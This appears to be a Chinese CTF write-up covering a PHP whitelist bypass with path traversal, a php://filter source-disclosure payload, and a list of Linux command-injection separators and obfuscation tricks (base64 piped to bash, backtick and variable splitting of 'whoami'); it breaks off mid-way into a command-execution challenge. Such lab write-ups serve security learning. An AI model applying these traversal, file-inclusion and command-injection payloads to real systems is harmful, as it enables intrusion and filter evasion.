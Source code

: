 分析代码，需要传入一个名为`file`的参数，需满足以下条件：

1. 是字符串

2. 在`whitelist`中

注意`mb_strpos($page . '?', '?')`，它负责以`?`分割出文件名，来判断是否在`whitelist`中，所以?后可以随便写。

只要满足条件，`include $_REQUEST['file'];`就可以被执行，显示file传入的文件。

通过访问`/hint.php`得到：

`flag not here, and flag in ffffllllaaaagggg`

payload:`/source.php?file=source.php?/../../../../ffffllllaaaagggg`

基于以上，在多次跳转上一目录后，得到了flag：

`flag{5026a355-8b4e-4d00-8f08-a71a732e854c}`

## Linux命令执行(下面几道题道题的前置知识)

[参考](https://www.freebuf.com/articles/web/293411.html)

1）`||` 符号 当前一条命令执行结果为false 就执行下一条命令

2）`|` 符号 只执行 | 符号后面的命令

3）`&&` 符号 当前一条命令执行结果为true 就执行下一条命令

4）`&` 符号 只执行 & 符号后面的命令

5）`;` 符号 不管前一条命令执行的结果是什么，执行下一条命令

6）a=l;b=s;$a$b        //变量覆盖

7）` \echo d2hvYW1p | base64 -d `     echo d2hvYW1p | base64 -d | bash         //base64绕过

8）w`saaaddd8450`ho`762aseba2`am`f0j71`i      wh$(caigou)oa$(anquan)mi       666`whoami`666      //反引号加混淆

9）wh$1oami        who$@ami        whoa$*mi       //$1、$@、$*混淆


## [ACTF2020 新生赛]Include

通过名字，猜测需要读取源码，

利用`php伪协议`，payload:`?file=php://filter/read=convert.base64-encode/resource=flag.php`

得到内容base64解密得到：

`echo "Can you find out the flag?";`

`//flag{94c1e2f9-f482-4a77-9d04-fe9740ff2ee6}`

## [ACTF2020 新生赛]Exec

因为Linux可以同时写两个命令：

````bash
命令1|命令2
````
